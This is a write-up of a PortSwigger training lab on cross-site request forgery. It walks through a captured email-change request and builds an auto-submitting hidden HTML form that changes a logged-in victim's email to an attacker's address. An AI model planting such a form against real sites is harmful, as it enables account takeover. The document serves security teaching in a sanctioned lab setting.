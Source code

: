 ![CSRF](csrf-vulnerability-with-no-defenses.png)

Portswigger’s Lab write up: CSRF vulnerability with no defenses

In this apprentice-level lab, we will exploit a site that contains a CSRF vulnerability in its email change functionality.

After signing in  and trying to update our account’s email to something like ‘test@gmail.com’, we can see the following request in the Network tab of our browser or Burpsuite Intercept:

```markdown
POST /my-account/change-email HTTP/1.1
Host: [0a9a0027047d6aaec1fa58be003b00b3.web-security-academy.net](http://0a9a0027047d6aaec1fa58be003b00b3.web-security-academy.net/)
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Origin: [https://0a9a0027047d6aaec1fa58be003b00b3.web-security-academy.net](https://0a9a0027047d6aaec1fa58be003b00b3.web-security-academy.net/)
Connection: keep-alive
Referer: [https://0a9a0027047d6aaec1fa58be003b00b3.web-security-academy.net/my-account](https://0a9a0027047d6aaec1fa58be003b00b3.web-security-academy.net/my-account)
Cookie: session=bQKVomOrYf95eVTuf4XKAw9zlJQDsUUK
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
```

With the following body structure:

```markdown
email=test@gmail.com
```

Here we are able to identify that the update email action just requires a session cookie to authorize the user and the email parameter to execute this action. Let’s use the reading material’s HTML template for CSRF to build our attack:

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

All we need to do is replace the action attribute of the form component to our lab’s absolute email update endpoint (you can see it on the POST request we performed earlier) and the value attribute of the email input to whatever value we want the victim’s email to change to:

```markdown
<html>
    <body>
        <form action="${LAB_URL}/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="${ATTACKER_EMAIL}" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

If we save this as an HTML file, when someone visits our site, the form above will be submitted as soon as the page loads and an email update will be requested (as long as the user is authenticated on the lab’s site since a session cookie is required to perform the email update action). To solve the lab, we have to go to the exploit server, store our HTML code, and send it to the victim.

Check out this write up on:

Art Of Code: https://artofcode.tech/portswiggers-lab-write-up-csrf-vulnerability-with-no-defenses/

Medium: [https://medium.com/@artofcode_/portswiggers-lab-write-up-csrf-vulnerability-with-no-defenses-a12785f4a14a](https://medium.com/@artofcode_/portswiggers-lab-write-up-csrf-vulnerability-with-no-defenses-a12785f4a14a)

Dev.to: [https://dev.to/christianpaez/portswiggers-lab-write-up-csrf-vulnerability-with-no-defenses-4p84](https://dev.to/christianpaez/portswiggers-lab-write-up-csrf-vulnerability-with-no-defenses-4p84)
